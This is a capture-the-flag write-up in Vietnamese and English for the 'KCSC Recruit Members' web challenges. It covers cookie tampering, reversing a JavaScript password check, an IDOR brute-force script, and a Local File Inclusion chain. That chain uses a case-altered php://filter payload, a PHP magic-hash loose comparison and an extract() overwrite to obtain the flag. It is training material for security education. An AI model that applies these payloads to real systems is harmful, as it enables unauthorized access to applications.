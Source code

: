 ## KCSC Recruit Members 

## Robot

Challenge lụm flag

**Part 1**: `KCSC{C0r0n4_` --> source-code
**Part 2**: `v1ru22_1s_` --> robots.txt 
**Part 3** : `g0n3_n0w!!}` --> disallowed: /vaccine.php --> /vaccine -> cookies:vaccine=0 --> vaccine=1 

**Flag**: `KCSC{C0r0n4_v1ru22_1s_g0n3_n0w!!}`

## 2. Warm Up

```javascript
    const checkPassword = () => {
      const v = document.getElementById("password").value;
      const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));
      if(p[0] === 52043 &&
         p[6] === 52063 &&
         p[5] === 52075 &&
         p[16] === 52076 &&
         p[9] === 52067 &&
         p[10] === 52063 &&
         p[4] === 52041 &&
         p[3] === 52067 &&
         p[8] === 52080 &&
         p[7] === 52037 &&
         p[2] === 52073 &&
         p[11] === 52082 &&
         p[12] === 52031&&
         p[13] === 52069 && 
         p[14] == 52063 && 
         p[15] == 52071 && 
         p[1] == 52063) {
        window.location.replace(v + ".html");
      } else {
        alert("Wrong password!");
      }
    }
```

`const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));` : Lấy từng số trong string ra dưới dạng ascii code rồi cộng cho `0xcafe`. 0xcafe `hex2decimal` được `51966`. Sắp xếp lại possition rồi lấy `51966` trừ cho vế so sánh --> charcode --> password: `MakeKmaGreatAgain`

**flag**: `KCSC{j4v-a-SRript-i555-FUn}`

## DIOR

Viết láy của `IDOR - Insecure direct object references`: arises when an application u`ses user-supplied input` to access objects `directly`.

![any](idor.png)

Brute-force flag thôi:
```python
import requests

url = 'http://45.77.39.59/?number='

for i in range(2000):
  r = requests.get(url + f'{i}')
  if 'KCSC{' in r.text:
    print(r.text)
    break
```

**flag**: `KCSC{Gud_luckkkkk__brooo}`

## Magic PHP

Web app: 1 page login only admin see flag, another look like vulnerable to LFI.

http://45.77.39.59/?page=secret

```
Warning: include(/etc/passwd.php): Failed to open stream: No such file or directory in /var/www/html/index.php on line 14

Warning: include(): Failed opening '/etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 14
```
Add extension --> `null byte` --> yes!!

**payload read index**: `pHp://filter/convert.base64-encode/resource=index`
case-sensitive for bypass!!

`index.php`
```php
<?php
    if (isset($_GET['page']) && !empty($_GET['page'])){
        $page = $_GET['page'];
        if(strpos($page, 'php') !== false){
          die("<center>Don' hack me ! Stop !!!</center>");
      }
      elseif (strpos(strtolower($page), 'flag')  ) {
        die("<center>Don' hack me ! Stop !!!</center>");
      }
    }
    else{
        $page = "login";
    }
    include ($page.".php");
?>
```

Đoạn này chẳng có gì nhiều, ngồi đục include to RCE thì là hỏng, chú ý khi không set page thì login sẽ redirect to `login.php`(đọc cho kĩ source-code jump!!).

`pHp://filter/convert.base64-encode/resource=login`

```php
<?php 
    
    include ("flag.php"); //real flag in $flag

  if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
      $password = random_int(10000000, 99999999);
      extract($_POST);
      $user_hash ='0e902564435691274142490923013038' ;
  
      if (md5($user) == $user_hash && $password === $pass){
        echo $flag;
        die();
      }else{
        die("Only admin have flag !!");
      }
    }
  }
?>
```

Trông dễ ăn đó, với user_hash thì encrypt int to 0e(mũ) là bypass được --> `0e1137126905:0e291659922323405260514745084877`

Hàm extract() extract any variable in POST array. Và nó được gọi sau `$password` tức mình có thể ghi đè!!

full payload(POST): `user=0e1137126905&password=123&pass=123`

**flag**: `KCSC{LFI_to_loose_comparison@@}`
